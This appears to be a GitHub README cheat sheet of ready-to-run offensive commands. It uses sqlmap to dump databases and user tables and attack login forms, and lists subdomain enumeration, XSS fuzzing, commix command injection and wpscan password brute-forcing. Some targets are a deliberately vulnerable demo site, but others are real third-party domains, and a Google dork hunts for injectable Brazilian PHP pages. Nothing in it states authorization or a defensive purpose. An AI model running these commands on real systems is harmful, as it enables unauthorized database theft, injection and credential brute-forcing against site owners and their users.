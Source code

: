 <h1 align="center">sqlmap</h1>

# parameter finding google dork

    site: .com.br inurl .php id=

# auto crawling command

    sqlmap -u "http://testphp.vulnweb.com/" --crawl 3 --batch --threads 5 --random-agent --risk 1 --level 1

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dump-all --batch --threads 7

# Step by step dumping databases

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch --threads 5

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --tables --batch --threads 5

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch --threads 5

    sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users -C uname --dump --batch --threads 5

## Login page brute-forcing

    sqlmap -u "http://testphp.vulnweb.com/login.php" --forms

    sqlmap -u "http://testphp.vulnweb.com/userinfo.php" --data="uname=abd&pass=abc&login=submit" --dbs

<h1 align="center">Sub Domain Enumeration</h1>

### Sub Domain finding using assetfinder+httpx
    assetfinder -subs-only faculdadeunica.com.br | httpx -random-agent -mc 200,302 -silent -server -tech-detect -status-code | tee path/validsubDomains.txt

<h1 align="center">CMS Detector</h1>

### auto Detecting
    cmseek -u https://wordpress.org --batch | tee 'path/cmsDetector.txt'

<h1 align="center">Gospider</h1>

### Paramiter finding
    gospider -s "https://www.farmasilva.com.br" --no-redirect -o gospider.txt

<h1 align="center">XSStrike, xss finder</h1>

### xss finding
    xsstrike -u "https://www.farmasilva.com.br/search?search_query=query" -f /usr/share/wordlists/SecLists/Fuzzing/XSS/XSS-Bypass-Strings-BruteLogic.txt

<h1 align="center">XSpear, xss finder</h1>

### xss finding
    XSpear -u 'http://testphp.vulnweb.com/listproducts.php?cat=123' -v 2 -o XSpear.txt

<h1 align="center">commix, xss finder</h1>

### os command injection finding
    commix -u 'http://192.168.31.177/vulnerabilities/exec/#' --cookie="security=low; PHPSESSID=hcjrgadiie5f40vup73ehe0fu7; security=low" --data="ip=INJECT_HERE&Submit=Submit"

<h1 align="center">wpscan</h1>

### Vulnerable plugin, themes, users
    wpscan --url https://wordpress.org -e vp,vt,u -o scanned.txt

### Vulnerable plugins, All plugins, Vulnerable themes, All themes, Timthumbs, Config backups, Db exports, User, Media, Bypassing Simple WAFs
    wpscan --url https://wordpress.org -e vp,vt,tt,cb,dbe,u,m --random-user-agent -v -o scanned.txt

### Password brute force attack
    wpscan --url https://wordpress.org -e u --passwords /usr/share/wordlists/rockyou.txt -o scanned.txt
